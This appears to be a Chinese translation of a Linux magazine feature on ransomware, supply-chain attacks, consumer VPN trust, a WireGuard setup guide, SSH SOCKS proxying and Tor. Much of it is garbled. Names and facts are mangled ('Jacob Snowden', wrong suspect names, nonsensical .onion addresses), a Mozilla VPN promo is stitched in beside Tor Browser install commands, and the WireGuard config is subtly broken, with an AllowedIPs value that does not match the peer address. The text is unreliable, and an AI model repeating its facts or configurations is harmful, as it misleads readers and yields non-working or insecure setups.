在 1,283 次下载量的情况下，这个包并不那么流行，但这可能挽救了更多的人。例如在 2021 年 10 月，广泛使用的 `ua-parser-js` 包被发现包含恶意软件。开发者的 NPM 凭据被劫持，发布了几个被篡改的包版本。攻击者没有尝试更改被盗的密码，但当开发者尝试取消发布该包时，发现攻击者利用了新发布的取消发布政策。最终，软件的新版本被发布，不用说，开发者采取了措施确保其 GitHub 和 NPM 账户的安全。具体包括：轮换机密（密钥和密码）以及添加双重身份验证。

### 互联依赖

> **没有开发者想要为了一个自己写的三行函数而去测试无数的边缘情况和极端情况。**

这个包（用于解析浏览器用户代理 User Agent 字符串）非常流行，下载量约为 800 万次。原因并不是 User Agent 字符串是下一个大热门，而是受影响的库被嵌入到了如此多其他流行库的供应链中。甚至 Facebook 也使用了它（但从未部署受影响的版本），而现在它已被尝试在受影响的系统上收集密码并代理加密货币。NPM 由 GitHub（进而由微软）所有，后者发布了一份关键安全供应商公告。


### 为勒索软件提供便利

加密货币有很多需要反思的地方，政府（以及《Linux Format》的大多数编辑）已经忍无可忍。

我们并不确定这种加密货币的胡闹是否正确。而对于人们挪用“crypto”这个词，我们则更加不以为然，因为多年来，赛博朋克们一直将其作为高尚的密码学（cryptography）艺术的缩写。但我们可以肯定的一点是，加密货币为勒索软件提供了便利。

如果要求受害者向银行账户支付常规的“法定”货币或进行资金转账，他们支付的可能性会低得多。而且，由于各国银行在审核客户方面相当明智，诈骗者被抓获的可能性会大大增加。但在过去十年多里，“加密货币”（尤其是比特币）已经巩固了其作为接收勒索软件付款的首选渠道的地位。人们常说比特币支付难以追踪，但这并非完全属实；它的真实含义是，每一次比特币转账的不可磨灭的记录都永久存在于区块链上，任何好奇的眼睛都可以看到。困难的部分在于打破钱包地址与个人之间的伪匿名性。

然而，这件事可能即将变得没那么困难。任何看过热门犯罪小说的人都听过侦探谈论“追踪资金”。用比特币很容易做到这一点。你甚至可以使用 blockchain.com 这样的网站，在舒适的浏览器中完成操作。例如，https://bit.ly/l2X5-blockchain-explorer 会向你展示与 Colonial Pipeline 付款相关的其中一笔交易（75 BTC，即整整 350 万美元），以及已关停的 DarkSide 组织是如何运作的。

你可能无法通过这种方式破案，但专业人士在区块链扫描算法方面已经变得非常精湛。例如，分析公司 Elliptic 的专家们发现，DarkSide 在几天后还对一家德国化学公司发动了攻击。Elliptic 的研究人员进一步发现，受害者平均支付了 190 万美元。总计达到了 9000 万美元，Elliptic 认为这是 DarkSide 历史上收取的勒索金总额。

### 追回交给黑客的款项

支付赎金是不合法的，但对于没有时间或备份的大公司来说，这可能是他们最好的（或者说，最不坏的）选择。Colonial Pipeline 的利益相关者可以从这样一个事实中获得一些慰藉：DarkSide 的网站在攻击后不久就被没收了。

不久之后，FBI 宣布他们获得了一个钱包密钥，并能够追回 85% 的赎金。据推测（参见 https://bit.ly/l2X5-blockchain-study），这笔资金实际上是支付给了一个 DarkSide 的关联方（一个可能获得了初始访问权限的独立承包商），而 DarkSide 将剩下的 15%（其 RaaS 运营商费用）以及所有其他不法所得保留在一个尚未公开的钱包中。

DarkSide 过去曾要求以门罗币 (XMR) 支付赎金，这是一种注重隐私的山寨币，其区块链上不记录唯一的地址。由于相对缺乏普及度，它不适合支付巨额款项。很少有交易所的金库中持有数百万个 XMR。加密劫持（Cryptojacking）恶意软件劫持机器（通常通过恶意 JavaScript）来挖掘加密货币，事实证明，门罗币是为此而生的理想代币。它可以在配置较低的硬件上挖掘，因此足够大规模的攻击可以获得丰厚利润。

Linux 机器至少在 2020 年 1 月曾被名为 FritzFrog 的恶意软件以这种方式攻击过，该软件用 Go 语言编写，通过 SSH 传播。它采用点对点（P2P）方式而非传统的命令与控制（C2）服务器，这使得调查人员很难将其关闭。一旦机器被攻破，就会生成一个远程进程来创建加密通道，以接收来自其他受感染节点的命令。即使受感染的机器重启也没关系；FritzFrog 会体贴地将自己的 SSH 密钥添加到机器中，创建一个持久的后门。哦，而且它还是一个无文件（file-less）恶意软件，因为节点之间通过排列内存块来相互发送“原文件”，这些块很快在另一端被重建并部署，不留痕迹。

这听起来可能只有服务器运营商需要担心，但不仅仅是服务器。Raspberry Pi、Koda 实例和 NSX 盒子很容易被识别（例如，使用 https://shodan.io 扫描引擎），如果存在合适的漏洞利用程序，这些设备就等同于被掌控。

此外，许多读者可能运行着 VPS 或云运行时，保持软件更新至关重要。对于运行 Nextcloud 的用户来说，没人希望自己的 Nextcloud 数据丢失或被勒索。如果你在运行自己的 Nextcloud，请尽到尽职调查责任，在 https://scan.nextcloud.com 设置安全扫描。它会对你的安全性进行 A+ 到 F 的分级，并为你提供如何获得更好等级的有用建议。这涵盖了升级到受支持的版本（Nextcloud 22 今日发布！）以及在 Web 服务器上配置内容安全策略 (CSP) 等更复杂的操作。

### 假设你收到了中毒邮件

上周末，我运行的搭载了出色的 Mail-in-a-Box (Mib) 的邮件服务器给我上了一课。好消息是：只有少数随机发送的电子邮件附件是有毒的。然而，一些嵌入的打印电子邮件附件包含传播勒索软件的有效载荷，因此任何运行邮件服务器的人都应格外小心。Mib 让这件事变得非常简单，但仍需指出的是，设置自己的邮件服务器存在一些复杂之处（我们仍然无法理解 Glue Records）。事实上，大多数恶意软件在眨眼之间设置链接轻而易举。结果就是一个完美的组合：恶意软件只想发送邮件，它不在乎接收，甚至不在乎大多数中继服务器是否拒绝它扫过之地的垃圾邮件。

据估计，勒索软件行业的年收入超过 200 亿美元，且每 11 秒就有一次勒索软件威胁。尽管关闭了一些据点，但没有迹象表明这些攻击在减速，或者在任何方面变得不那么有利可图。

然而，执法部门和业界正在对勒索软件发起强力反击。2021 年 10 月，乌克兰国家警察与美国合作起诉了数人。Vasinskyi 及其仍在逃的 Venyamin Pogonyy 就在被目标之列。

那种“恐怖电影”般的感觉在于，勒索软件用户不仅提出了要求，而且愿意为此投入真金白银。美国政府为提供关于 REvil 领导层的信息提供高达 1000 万美元的奖励，并为提供计划使用其软件发起攻击的人员信息提供 500 万美元的奖励。

### 最终思考

值得记住的是，一个坚定且资源丰富的对手如果愿意，可能会攻破一个注册糟糕的 Linux 用户。但这并不意味着我们应该放弃，关闭防火墙，然后在荒凉的夜晚对着天空尖叫：“我的密码是 XXXX！”重复使用密码是攻击的常见原因，现在没有理由不使用密码管理器。我们推荐开源的 KeePassXC (https://keepassxc.org)，但还有很多其他 FOSS（自由开源软件）产品以及云解决方案。如果你更喜欢基于文本的方式，可以使用 pass 程序，它可以通过 GPG 和（可选的）git 管理一个简洁的密码分层结构。

如果你认同，可以将密码管理器与双因素认证 (2FA) 配对使用。而且，将手机作为第二因素并非万无一失。现在许多应用程序和服务支持基于时间或指纹的一次性密码 (OTP)，你不需要使用 Google Authenticator（它绑定在 Google 的服务器上）来获取它们。你可以使用替代应用程序。Twilio 的 Authy 非常受欢迎，但为了追求极致的开源之美，我们还是推荐 Aegis。你可以在 F-Droid 商店中找到它，以及你开始使用所需的大部分工具。

如果最糟糕的情况发生了，你确实被某个网络土匪袭击了，有一些机构可以提供帮助。在英国，我们有国家网络安全中心 (www.ncsc.gov.uk)，美国则有网络安全和基础设施安全局 (www.cisa.gov)。


### 确保你的 VPN 安全

总是持怀疑态度的 **Jonni Bidwell** 将在这里对利润丰厚的 VPN 业务提出质疑，并向你展示如何做得更好...

消费级 VPN（虚拟私人网络）是一个庞大的产业。事实上，如果所有的赞助产品植入和联盟营销链接可以作为参考，那么每月只需花费几美元，就能为你买到安全、隐私和其他模糊的益处，同时还能让你神奇地看起来像是在另一个国家。

那些诱导你注册的暗示没有告诉你的是，当你安全地在那个遥远的 IP 地址段中度假时，你的实际 IP 地址和加密信息对于 VPN 提供商来说是完全透明的。它可能更关心你的月度订阅费用，而不是你使用其服务的目的。而且，它很可能会实施一项“无日志”政策，因为这样可以节省空间和资金。但实际上，他们对客户流量的洞察力与那些客户的 ISP（互联网服务提供商）一样，直到所有流量消失在单个 VPN 连接中为止。

现在，我们并不是在说所有的 VPN 都很糟糕。Linux Mint 现在自带 Internet Access。NordVPN 有 Linux 客户端。甚至 Mozilla 现在也有自己的 VPN（虽然如果你使用 Firefox，可能已经听说过了）。他们唯一需要做的是证明自己足够可靠。那么，为什么不运行自己的 VPN 呢？我们将向你展示如何使用最新的 WireGuard 技术，通过你选择的服务器，或者通过虚拟专用服务器（VPS）选择的服务器来路由你的流量。如果你不信任你的 ISP 或 VPS 提供商，我们将探讨 Tor —— 隐私保护的金标准。

如果你的目标是像我们那个坚定的资本主义姐妹网站 TechRadar 的许多优惠猎人一样，去查看不同货币的价格，或者减轻公共 Wi-Fi 的风险，那么 VPN 会帮你实现。如果你的目标是访问地理限制内容（如 Netflix 美国区等），或者隐藏你的下载以避开隐形价格，那么 VPN 可能也能帮到你，但这几乎肯定违反了提供商的“服务条款”。信不信由你，Tor 可以优化你的浏览，保护你免受跟踪 Cookie、恶意软件和瘟疫（无论这个比喻多么不恰当）的侵害。你的 IP 地址远非允许网站识别你的唯一标记。我们将看到，浏览器指纹识别、DNS 拦截，甚至传统的垃圾邮件，都可能破坏 VPN 提供的任何保护。

### VPN 的原委

糟糕的不是 VPN，而是人们对隐私不切实际的期望。而且，在按点击付费的时代，诚实也成了稀缺品。

在任何搜索引擎上搜索“为什么我需要 VPN”，你会发现许多花哨的网站，用各种粗劣的文字描述“未受保护”浏览的危险。这类激烈的言论应持保留态度。是的，有些公司会惩罚那些浏览与其意识形态相悖的网站的网关。是的，Google 在中国大部分地区被屏蔽。是的，VPN 可能会在这方面帮到你。但这也许不像人们想象的那么至关重要。

无论如何，让我们先深入探讨一下。VPN 是两个网关（通常是两台机器）之间的加密隧道。实现这一点有多种协议，但它们都允许客户端机器使用服务器作为代理来访问资源、网页、公司内部服务器等。此外，利用成熟的公钥加密和密钥交换协议，使得任何对隧道进行窃听的人，将其数据解码的可能性微乎其微。并且，任何观察从 VPN 服务器到外部世界连接的人（如果流量是那样流向的）都无法看到客户端的 IP 地址。

网络管理器（Network Manager）支持各种 VPN 连接，但市面上也存在各种可疑的操作。

用户容易受到各种诉讼和调查的影响，因为流量在离开 VPN 隧道后不再被加密。现在大部分网页都受到 HTTPS 的保护，但这仍然会泄露域名和 IP 地址。

我们希望这种行为已成为过去，且在很大程度上确实如此。但这并不意味着我们可以信任那些花哨的“一夜暴富”式 VPN 告诉我们的信息。例如，其中许多供应商宣称实行“无日志”政策。然而在 2020 年，七家总部位于香港的此类供应商意外泄露了约 1.2TB 的用户日志。其中包括时间戳、IP 地址、密码、会话密钥、访问的域名、浏览器用户代理字符串（user agent strings）和 IP 地址。长期以来被认为比其他服务更具信誉的 NordVPN 在 2018 年也经历了数据泄露，导致客户数据被窃取。

这听起来很不错，事实也确实如此——只要你信任你的 VPN 提供商。然而，确认这种信任很难。2016 年，一个名为 Hola 的免费 VPN 服务违反了用户信任，结果发现它是一个僵尸网络，允许用户与权益持有者切换用户。然而，这些用户在不知不觉中卷入了比他们愿意的更深层次的 VPN 运行中。Hola 的商业模式是将用户之间的隧道流量进行转换，从而使他们的机器变成了代理。

这些可能是孤立事件，但你会信任这样的运营机构来聚合你所有的互联网流量吗？或者换个角度，你是否足够信任你的 ISP，以至于认为将这些信息交给一个未知实体是个好主意？

### 企业级与个人 VPN

在我们撰写此专题时，一封公司全员邮件出现了，开头很熟悉：“IT 部门正在调查一次停机。”这一次是公司 VPN 挂了，由于大多数员工都在居家办公，这意味着无法访问公司服务。对于我们来说，这意味着没有字体，没有 Creative Cloud 许可激活，我们甚至无法登录服务器来让他们知道我们的不满。

企业 VPN 使用一些相同的技术（例如 OpenVPN），但它们的使用目的与我们讨论的那些可疑 VPN 完全相反。企业使用 VPN 是为了限制对资源的访问，并为此使用硬件设备。我们敢打赌，消费级 VPN 更多是为了绕过限制，并且运行在廉价的通用虚拟专用服务器（VPS）上。在许多情况下，你可以从 EU 或 Digital Ocean 等类似供应商，或者在欧盟数据中心租用 VPS，但仍然可以在法律较为宽松（关于互联网连接能做什么和不能做什么）的国家找到服务器。而这正是许多人的吸引力所在。

不过我们离题了。我们应该说的是，企业 VPN（在正常工作时）是一件好事。尽管使用 OpenWRT 或其他开源路由器固件可以让你在家里运行自己的 VPN。

### 运行 WireGuard VPN

**WireGuard 是目前最先进、最精简、最高效的 VPN 协议。让我们开始保护这些线路吧！**

得益于开源的奇迹，运行自己的 VPN 是可能的。根据你的目的（例如，如果你想违反规则），这可能不适合你。但如果你希望在出门在外时，能有一个安全的隧道连接到家庭网络或你的 VPS（虚拟专用服务器），那么本节将向你展示如何实现。不过在此之前，让我们看看另一个 FLOSS（自由开源软件）瑰宝 OpenSSH 的一个较少为人知的功能。正如往常一样，它充满了隐藏的宝藏。例如，在 SSH 会话期间，如果你输入 Esc 字符然后输入 `~`，你可以进入一个超级命令 shell，从中你可以添加任何端口转发选项。如果你在启动会话时忘记添加它们，这非常方便。

WireGuard 仍然相当新（它在 2020 年 4 月才被加入 Linux 内核），虽然它的目标是（在架构上也是）比 OpenVPN 等更简单，但你会发现仍然涉及大量的手动设置。未来会有额外的辅助工具来处理密钥分发和 IP 地址分配，但目前我们必须自己完成所有工作。WireGuard 在设计上希望拥有最小的攻击面，因此它坚定地作为网络层服务。像 DHCP（或其任何等效物）这类可能对 WireGuard 有帮助的功能存在于 OSI 模型的其他层，因此它们永远不会被添加到 WireGuard 本身中。

根据 felixgu.net 网站上的帖子，WireGuard 的性能远超同行。它也足够简单，我们可以在两页内完成设置。

### 奠定基础

我们首先需要做的是在两台机器上安装相应的工具。Ubuntu 20.04 及更高版本拥有支持 WireGuard 的内核，因此你不必担心更新 DKMS 模块。使用以下命令安装用户空间部分：

```
$ sudo apt install wireguard-tools
```

现在我们可以创建目录 `/etc/wireguard`，并将密钥对存放在其中：

```
$ sudo wg genkey | sudo tee /etc/wireguard/privkey
$ sudo cat /etc/wireguard/privkey | wg pubkey | sudo tee /etc/wireguard/public
```

由于 WireGuard 的配置目录属于 root 用户，我们需要使用这种相当繁琐的 `sudo` 和 `tee` 组合命令。两端都需要生成密钥对。需要明确的是，WireGuard 的设计仅仅是交换任何连接到它的对端（peer）的 IP 地址和公钥。如果你在家庭本地网络中连接到另一台本地机器（这是一个极端用例，但便于测试），你可以使用它们的本地地址。如果你处理的是不在局域网（LAN）内的机器或 VPS，你需要使用你的外部 IP（你可以通过在 DuckDuckGo 中输入 "ip" 来获取）。WireGuard 将为每个人创建一个虚拟接口 (`wg0`)，并为每个人分配自己的私有 IP 地址。使用保留的私有 IPv4 范围（例如为此使用 192.168.*）以外的任何地址都是糟糕的主意，而使用与你的本地局域网冲突的地址同样糟糕。

### 通过代理浏览

OpenSSH 的另一个令人愉悦的宝藏是它可以被用作 SOCKS 代理。这与 VPN 不同；它本质上工作在会话层而非传输层。但它确实能够使流量通过加密连接进行隧道传输，并且可以混淆连接并隐藏客户端的 IP 地址，这确实是 VPN 功能的一部分。

对于 SOCKS 魔法，请在平常的命令中添加以下选项：
`$ ssh -D 3128 myserver.com`

这将把来自本地机器 3128 端口的流量发送到代理（你可以使用任何你喜欢的可用端口号）。许多应用程序支持 SOCKS 代理，但它们需要被明确配置。为了在 Firefox 中使用这个简易设置，请前往 设置 $\rightarrow$ 常规 $\rightarrow$ 网络设置，并选择“手动代理配置”。在 SOCKS 主机框中输入 `localhost`，在端口框中输入 `3128`。将单选按钮保持在 SOCKS v5 设置上。点击确定，你的网页流量将通过 SSH 隧道路由。不要忘记在断开 SSH 连接时重置网络设置，否则网页将被“代理拒绝连接”错误所取代。


在这里我们可以看到一个对等节点已成功连接。不过，添加更多对等节点的数量增加时，复杂度会呈指数级增长。

10.0.0.0 前缀（另一个私有范围），但如果这在你的局域网（LAN）中未被使用，你应该通过某种方式使用其他地址。

我们需要在两端准备好 WireGuard 配置。所以，别担心——它看起来比实际情况要复杂。在远程服务器上，使用 sudo 编辑 `/etc/wireguard/wg0.conf` 并按如下方式填写。你需要复制并粘贴相应的密钥。`[Interface]` 部分描述的是 WireGuard 的本地接口，因此请在此处设置在该接口上生成的私钥。`[Peer]` 部分描述的是任何连接到它的节点，因此请在此处使用本地机器的公钥。在 IP 地址中使用 /32 掩码可确保仅允许该对等节点连接：

```
[Interface]
Address = 10.0.0.2/24
PrivateKey = <your_private_key>
ListenPort = 51820

[Peer]
PublicKey = <server_public_key>
AllowedIPs = 10.0.0.0/32
```

在本地机器上执行相同的操作，在 `[Interface]` 部分使用不同的 10.0 IP 地址。在 `[Peer]` 部分，使用来自服务器的公钥。将 `AllowedIPs` 设置修改为转发所有流量。同时添加一个 endpoint，以便 WireGuard 知道连接到服务器的公域 IP。我们还添加了一个 keepalive 参数，根据文档，这将有助于维持 NAT 连接：

```
[Interface]
PrivateKey = <local_private_key>
Address = 10.0.0.3/24

[Peer]
PublicKey = <server_public_key>
AllowedIPs = 0.0.0.0/0
Endpoint = 192.168.196.x:51820
PersistentKeepalive = 30
```

快完成了！你还需要设置：

```
sudo sysctl -w net.ipv4.ip_forward=1
```

以允许内核为网桥转发流量。通过以下命令在交换机上启动 WireGuard 服务器：

```
sudo systemctl start wg-quick@wg0
```

WireGuard 的一个副作用是，如果你在 `[Interface]` 部分使用了冲突的 IP，配置错误很容易导致远程机器无法访问。但大多数 VPS 默认启用转发，所以如果发生了这种情况，也不是世界末日。你可以通过在任一机器上运行以下命令来检查一切是否正常工作：

```
sudo systemctl status wg-quick@wg0
```

如果没有错误（包括你自己造成的错误），你应该能够使用服务器的虚拟 10.x IP 地址以及其实际 IP 地址来 ping 服务器。然而，你可能已经注意到你的本地机器失去了与外界的连接。这可以通过一些防火墙规则轻松修复。我们假设使用新风格的接口名称 eth0，命令 `ip a` 将向你显示此处应使用的实际名称。如果你在（服务器上）运行 UFW，你可能需要：

```
sudo ufw allow in on wg0
```

以允许 WireGuard 流量进入网络。你还需要：

```
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

以便路由相应地进行 NAT 转换。这些命令（以及相应的禁用命令）可以添加到配置文件中以实现自动化。具体操作请参阅文档。

我们演示了一个相当简单的 WireGuard 使用示例，但它的功能远不止于此。它支持 IPv6，因此如果两台机器都配置了 IPv6，同样可以很容易地将其作为替代方案或共同使用。还可以在系统中以共享私钥的形式增加一层安全性。顾名思义，这是在客户端和服务器之间共享的。可以使用 `wg genpsk` 生成，然后通过 `PresharedKey =` 指令复制并粘贴到两端。

✓ 成功！我们的 WireGuard 配置生效了。这一切在 Cool Retro Terminal 的助力下变得更加令人兴奋。

### Tor 及其他 VPN 替代方案

长期以来，Tor 一直被认为是隐私和匿名的金标准。看看进入“隐身模式”是多么简单。

VPN 被宣传为增强隐私、安全和匿名性的工具。这些名词在特定情况下确实适用。但当你必须使用有效的电子邮件地址和信用卡注册时，很难称 VPN 为匿名服务。而且，如果你讨论的是一群无法被审计的、事实上中心化的服务器，也很难肯定它们是否私密或安全。幸运的是，还有其他替代方案，你可能听说过的一种就是 Tor（正式名称为 The Onion Router，洋葱路由）。

与 VPN 类似，Tor 通过加密隧道代理流量，从而隐藏用户的 IP 地址。但不同之处在于，没有任何单一实体拥有 Tor。任何人都可以运行 Tor 节点，任何人都可以免费连接到它，无需任何注册流程。

Tor 连接——即“电路”——会经过至少三个 Tor 节点，每一跳都会解开一层加密（因此得名“洋葱”）以发现下一跳。通过这种方式，第一个节点和最后一个节点之间不存在关联。Tor 有多种用途：作为访问常规 Web 服务的中间件，或者访问 Tor 的隐藏服务（这些服务拥有自己的 .onion 域名）。

### 各类 Tor 用户

你可能听说过 Tor 被用于组织犯罪、雇佣杀手或许多其他坏事。恶意活动确实在其中发生，但许多合法服务也在“洋葱”网络上运行。例如，BBC 新闻网站在某些不希望公民收听 BBC 的国家被屏蔽。因此，几年前 BBC 决定在 www.bbcnews.to/dpqsyu.onion 运行一个 Tor 服务。这虽然算不上完全自由的记忆访问，但为了获得新闻自由，这是一个很小的代价。Tor 服务通常是 16 个字符长的随机字母字符串，但通过一点努力，可以自定义前几个字母。（Facebook 也部署了一些连接，但其方式不一定值得在隐私专题中提及）。例如，Facebook 在 https://facebookcoreweb.ai.onion 也有一个服务。

### 其他 VPN 方式

另一种流行的自行构建开源 VPN 的方式是使用 OpenVPN 协议；这是一个比 WireGuard 复杂得多的“猛兽”，但通过简单的设置，入门依然很容易。所有这些都依赖于你能访问远程服务器（如果你想以传统方式使用 VPN），并且确信该服务器不会被攻破。因为如果服务器被攻破，使用 VPN 就没有任何意义了。

我们不会推荐任何一家商业 VPN 服务胜过另一家，但在一个充满了 Meta、Alphabet 和 Yahoo!（谁？——额？）的世界里，我们认为 Mozilla Firefox 是一股很好的力量。而凑巧的是，你可以通过订阅他们的 VPN 服务来获取 VPN。如果你喜欢 WireGuard（而不想去折腾子网和网络）并且使用 Linux，它可能比其他产品稍贵一些，但希望我们已经足够详细地介绍了他们的服务。另外，MZ（Mozilla）不会付钱让我们写这篇文章。

值得一提的是，无论是否拦截 cookie，登录 Facebook 和 Google 类服务往往会在一定程度上识别你的身份。下方有浏览器按钮，你可以用来宣布你是在使用 VPN、Tor 还是两者兼顾。确保没有人能在页面上规避它们。目前，请确保在 Tor 上进行任何想要隐藏的操作之前，已退出这些服务的登录。再次提醒，我们有点抢跑了，还没告诉你怎么开始。让我们通过访问 www.torproject.org/download 并下载 Tor 浏览器来弥补这一点。

### Mozilla VPN

#### 适用于 Ubuntu Linux 的 Mozilla VPN —— 完美的私密组合

作为 Ubuntu Linux 的粉丝，你已经知道在线隐私和安全的重要性。你可能也了解 Mozilla 以及我们所代表的理念——一个自由、开放的 Web 和全民互联网。现在是时候将两者结合在一起了。

Linux 版本以 tar.xz 归档文件的形式发布，在 Ubuntu 上至少可以使用“归档管理器”工具打开。将其解压到你的主文件夹（或任何你喜欢的地方），然后运行随附的桌面文件将其添加到应用程序菜单中：

```bash
cd ~/tor-browser-en_US/
./start-tor-browser.desktop-register-app
```

如果你不想在主目录下保留一个 Tor 浏览器的静态副本，那么你可以添加 Debian 仓库（不建议在 Ubuntu 仓库中使用 Debian 仓库）。具体操作在 https://support.torproject.org/apt/tor-deb-repo 中有解释。如果你使用 FlatHub（或者你的发行版应用程序管理器支持），你也可以在那里找到它。

> Mozilla 也要生存，而且它确实关心 Linux 用户。也许这使得该公司更值得你的支持。


（接入该接口），你也可以利用 *Tor Browser Launcher*。它可以自动完成下载、配置以及保持浏览器更新的过程。

当你启动该浏览器时你会发现，这个浏览器是 Firefox ESR 版本的定制版。点击“连接”按钮，看看你是否能连接到 Tor。建立中继和电路等需要一些时间，但即使你在防火墙之后，连接起来应该也相对容易。在某些国家，公开列出的 Tor 中继被封锁了，但有相应的补救方案。在“配置”页面中，你可以选择使用桥接（bridge），这些桥接可能来自 Tor Project 的列表或可信来源。封锁 Tor 桥接要困难得多，因为所有桥接的完整列表并不存在，也没有被公开。连接成功后，尝试访问（如果你还没访问过）onionwiki（显然它是 .onion 格式的），你会发现 Tor 的主要缺陷之一：它很慢。有时非常慢。

使用 Tor 进行流媒体视频等高带宽活动被认为是不礼貌的行为。如果你热爱 YouTube，由于观看视频需要登录，你实际上相当于在告诉 Google 你正在使用 Tor 且你来自世界某个地方，尽管这通过伪装在欺骗它。一些劣质 VPN 网站使用的另一种卑劣手段是声称它们比 Tor 更好，因为 Tor 很慢。不幸的是，许多 VPN（尤其是那些经过修饰的）同样存在类似的带宽限制。

### 退出舞台（左侧）

劣质 VPN 与 Tor 的争论还涵盖其他领域。众所周知，偶尔有人会运行恶意公开出口节点。当出站流量离开 Tor 网络并被路由到请求的网站时，如果用户使用 SOCKS 代理服务（即洋葱节点），则不使用出口节点。否则，某些域名等将被访问。这就像 VPN 提供商（理论上）可以做的一样，如果他们真的记录了其 Tor 中继（虽然可能不建议这样做）。但与 VPN 情况不同的是，出口节点并不知道用户的 IP 地址。因此，这个论点再次被证明是似是而非的。更准确的说法可能是，与某些提供商相比，它比劣质 VPN 要好。虽然也称不上真正优秀。

如果你想寻找其他 Tor 站点，The Hidden Wiki 是一个很好的起点。这是一个普通的网站（你可以通过 Tor 访问），其中充满了指向其他 .onion 站点的链接。我们很兴奋地向你推荐，但由于其中一些站点并非全家欢内容，我们将把它交给你的首选搜索引擎。请注意，Tor 浏览器使用“永久私密浏览模式”，在关闭浏览器时会删除所有 Cookie 和站点数据。就像 Firefox 的普通私密窗口一样，它还将不同网站的 Cookie 相互隔离，使广告商更难（甚至不可能）跟踪各自的设置。

> Tor 浏览器内置了 NoScript 和 HTTPS Everywhere，并根据你的偏执程度提供三种不同的安全设置。

人们对 Tor 最初是一个海军研究项目且长期由美国国务院资助这一事实大做文章。目前 Tor 仍有一些政府资助，但大部分贡献来自私营部门。

### 保持 Tor 使用量轻量化

> “Tor 上的所有带宽实际上都是捐赠的，因此（尝试）将其用于流媒体视频等数据密集型活动被认为是不礼貌的行为。”

2013 年，Jacob Snowden 进行了名为“Tor 很糟糕”的演示。其中，我们最喜欢的那个“三字母机构”承认他们无法解密 Tor 流量，但指出通过流量关联进行去匿名化的针对性尝试在付出一定努力后可能是可行的。因此，并没有所谓的后门秘密，但攻击威胁在 2014 年已被理论化并付诸尝试。卡内基梅隆大学的研究人员对 Tor 实施了一次成功的去匿名化攻击。两年后，据确认美国情报部门和卡内基研究所投入了巨额资金研究此项技术。而这次演习的目的就是为了抓获一个市场网站的运营者，他们确实做到了。

因此，Tor 并非不可逾越，人们会找到新的、创造性的方式来攻击它。但它是一个开源项目，因此它的缺陷会被分析并共享，我们会研究其漏洞。这就像是波峰波谷。许多节点在轮换（参见 https://ruby.sh/tor-guide-bash-tor-users），但也有许多小人物在摸索路径。你的 VPN 公司可能也在做同样的事，但正如 @SwiftOnSecurity 曾经建议的：“我不使用 VPN，因为我宁愿让 Comcast 激进地聚合我的数据，也不愿让某个穿着海豚连体衣的家伙在苏黎世的地下室里这么做。”

Tor 旨在保护你免受各种威胁，但足够坚定的对手和广告商总能找到办法。

### 额外措施

了解 VPN 无法保护的内容，并采用分层方法增强你的隐私。

当你连接到 VPN 时，除了代理你的流量并设置相应的路由表更新外，它还可能为你提供不同的 DNS 设置。从理论上讲，这是一个合理的解决方案。额外的 DNS 请求（例如，将 linuxformat.com 解析为 172.51.3.175）是以明文传输的，因此即使 DNS 服务器的运营商（通常是某个 ISP）不知道客户端在看哪个网页，他们至少知道它在访问哪个域名。这被称为 DNS 泄漏。你可以使用另一个 DNS 服务器（例如 Cloudflare 易于记忆的 1.1.1.1 公共服务），但这同样只有在你比信任自己的 ISP 更信任该运营商时才可行。

ISP 还可能在 DNS 层面封锁某些域名（英国就有一份长长的盗版相关网站名单），因此一段时间以来，使用他人的 DNS 服务器被（那些与 ISP 利益一致的阴险之徒）视为一种免费且便捷的绕过方式。许多 ISP 对此心知肚明，并且此前采取了相当强硬的措施进行 DNS 拦截。记得我们说过 DNS 运行在 UDP 之上吗？这让某些 ISP 很容易清除！嗯，这也让你的 ISP 能够非常容易地将那些 53 端口的请求重新路由回他们的 DNS 服务器。

因此，VPN 现在反应更加剧烈，有时会提供抗 DNS 泄漏的技术。事实上，一些 VPN 甚至提供了一种被称为“仅 DNS”的更温和的选项。其机制很简单：将 DNS 请求与其他流量一起（或代替其他流量）通过隧道传输。同样，这只是将信任 VPN 的问题上移到了信任 VPN 运营商。

我们并不反对我们的“Torny”政府封锁种子和流媒体网站，也不反对 ISP 自愿封锁儿童色情网站。但同样的技术被全世界的“盖世太保”用来镇压异见人士、活动人士和记者。这一点我们无法容忍。一种技术方法是从传统 DNS 切换到 DNS-over-HTTPS (DoH)。顾名思义，这将 DNS 层转换为安全的 Web 请求来传输 DNS 请求。Firefox（在美国）默认对网页浏览执行此操作，但你也可以在系统范围内设置。这样，你不仅避免了 Web 流量的可见性，还能免受拦截（如果你信任 HTTPS 的话，你应该信任）。

早在 2019 年，我们报道了一些大型 ISP 的无知运营商试图因为 Mozilla 计划默认推出 DoH 而将其“授予”一个“年度互联网获胜者”奖项。据称是因为它排挤并中止了隐私。作为回应，Firefox 决定在英国默认启用 DoH；事实上，在美国我们依然能看到默认启用，但那取决于 Firefox 用户是否自行开启该选项。此后，其他浏览器也采用了 DoH，在首次使用时提供“合理的安全浏览”。

不过，DoH 方法并非万能药。它存在一些坑点。大多数操作系统的 DNS 客户端相对简陋，需要被绝对信任。还有其他确保 DNS 安全的努力，最著名的是 DNSSEC，它确保请求和响应未被篡改。但这是一个复杂的东西，不幸的是，在咖啡店运行一个伪造的 Wi-Fi 热点时，它还不够复杂。在那里，你（希望不会，但某些坏人可能会）向毫无防备的用户返回被污染的 DNS 响应，将他们引导至热门网站的钓鱼版本。或者他们可能会执行 SSL-stripping 攻击，尝试绕过加密浏览（HTTPS 或 HTTP），甚至可能诱骗用户在浏览器中安装一个伪造的证书颁发机构 (CA)。那将非常糟糕，在这种情况下，你可能会更倾向于使用 VPN。当然，理想情况下应该是使用一个你真正信任的 VPN。

### 隐私与真实性

本月初我们提到了 HTTPS，依托于 Let's Encrypt（如今在 Linux 基金会的赞助下）的努力，它已在 Web 上普及。这种高贵性仅提供了隐私，使得在连接你和 Web 服务器之间的人无法看到 URL 中第一个斜杠之后的内容。但还有真实性，这样你就知道，例如，你访问的 linuxformat.com 确实与证书验证时的服务器是同一个。

一些 VPN 提供商在这里稍微歪曲了事实。他们让你相信这还不够，而额外的加密层是一个优势。

> ⓘ 你可以在 Firefox 的网络设置中找到启用 DNS over HTTPS 的隐藏选项。


这一点尚有争议，因为现代 TLS 1.3 使用伽罗瓦域（Galois Fields）和椭圆曲线，极其难以破解。

